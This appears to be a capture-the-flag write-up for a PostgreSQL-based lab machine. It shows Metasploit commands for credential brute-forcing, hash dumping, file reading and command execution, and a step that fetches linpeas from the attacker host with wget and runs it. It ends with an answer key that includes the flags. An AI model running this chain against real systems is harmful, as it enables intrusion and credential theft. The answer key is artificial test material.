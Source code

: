 # Poster - Easy

```shell
nmap -T4 -p- -A -v 10.10.104.49

msfconsole -q

search postgresql

use auxiliary/scanner/postgres/postgres_login

options

set RHOSTS 10.10.104.49

run
#gives creds

search postgresql

use auxiliary/admin/postgres/postgres_sql

options

set PASSWORD password

set RHOSTS 10.10.104.49

run
#gives version of postgresql

search postgres hash

use auxiliary/scanner/postgres/postgres_hashdump

options

set PASSWORD password

set RHOSTS 10.10.104.49

run
#dumps hashes

#crack the hashes
vim hashes.txt

hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/kaonashi.txt

#in msfconsole
search postgres

use auxiliary/admin/postgres/postgres_readfile

options

set RHOSTS 10.10.104.49

set PASSWORD password

run
#prints /etc/passwd

search postgres command

use exploit/multi/postgres/postgres_copy_from_program_cmd_exec

options

set LHOST 10.14.31.212

set PASSWORD password

set RHOSTS 10.10.104.49

run
#we get command shell

whoami
#postgres

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls -la /home

ls -la /home/dark

cat /home/dark/credentials.txt
#we get creds for dark

#in another tab
ssh dark@10.10.104.49

cd /tmp

#get linpeas from attacker machine python server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ls -la /var/www/html

cat /var/www/html/config.php
#we get alison creds

su alison

cd
#get user flag

sudo -l
#we can run all commands as all users

cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18
  * 5432 - postgresql - PostgreSQL DB

* We can begin enumeration of ```postgresql``` on port 5432 - we can search Metasploit for any related modules.

* We can use the module for postgresql login utility - configuring and running this module gives us creds.

* We can again search for a module which allows us to login into this service with creds.

* Running the required module gives us the version of the postgresql service on victim machine.

* Now, we need to check for modules which can dump hashes from the service.

* Running the required module dumps MD5 hashes for 6 users, we can crack these hashes using ```hashcat```

* We are able to crack passwords for 4 out of 6 users.

* We can use the Metasploit module to read files using authenticated users.

* Running the module prints out '/etc/passwd' - this includes the user 'dark'.

* Now, we need to search for modules related to postgresql that allow us command execution.

* Running the module with creds 'postgres:password', we are able to get a command shell session.

* We need to check for privesc now - we can check the users' home directories.

* From dark's home directory, we get creds - now we can log into SSH using this.

* Once we log into SSH, we can check for privesc using ```linpeas.sh```.

* We can check the web directory /var/www/html - this contains a config file.

* This file contains creds for alison - we can now login as alison.

* After getting user flag, we can check ```sudo -l``` - this shows we can run all commands as all users, so we can print root flag as sudo.

```markdown
1. What is the rdbms installed on the server? - postgresql

2. What port is the rdbms running on? - 5432

3. After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the module? - auxiliary/scanner/postgres/postgres_login

4. What are the credentials you found? - postgres:password

5. What is the full path of the module that allows you to execute commands with the proper user credentials? - auxiliary/admin/postgres/postgres_sql

6. What is the rdbms version installed on the server? - 9.5.21

7. What is the full path of the module that allows for dumping user hashes? - auxiliary/scanner/postgres/postgres_hashdump

8. How many user hashes does the module dump? - 6

9. What is the full path of the module that allows an authenticated user to view files of their choosing on the server? - auxiliary/admin/postgres/postgres_readfile

10. What is the full path of the module that allows arbitrary command execution with the proper user credentials? - exploit/multi/postgres/postgres_copy_from_program_cmd_exec

11. Compromise the machine and locate user.txt - THM{postgresql_fa1l_conf1gurat1on}

12. Escalate privileges and obtain root.txt - THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```
